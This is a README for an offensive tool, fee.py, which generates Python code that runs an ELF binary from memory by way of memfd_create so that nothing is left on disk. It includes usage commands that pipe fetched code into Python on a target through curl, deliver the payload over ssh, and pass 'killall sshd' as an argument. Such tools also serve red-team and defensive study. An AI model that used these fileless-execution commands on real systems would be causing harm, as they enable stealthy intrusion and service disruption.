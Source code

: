 ## Execute ELF files on a machine without dropping an ELF

### Description

This Python script generates Python code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 (for `memfd_create` support)
 * Python: either 2 or 3

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c`:

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```
$ ./fee.py -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__NB!__ By default, the script uses libc to resolve the right syscall number for `memfd_create` on the target in order to be as platform-agnostic as possible. If this fails (old or unsupported libc), you can use the `--target-architecture` (`-t`) flag to explicitly generate a syscall number.
For more exotic platforms, you should specify the syscall number manually. You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest. You can then specify the syscall number using the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-t ARCH | -s NUM] [-a ARGV] [-c] [-p PATH] [-w CHARS] [-z LEVEL] path

Print Python code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -t ARCH, --target-architecture ARCH
                        target platform for resolving memfd_create (default: resolve symbol via
                        libc)
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target platform
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied to execle (default:
                        path to file as argv[0])
  -c, --with-command    wrap the generated code in a call to Python, for piping directly into ssh
  -p PATH, --python-path PATH
                        path to python on target if '-c' is used (default: '/usr/bin/env python3')
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to wrap to a newline
                        (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)

```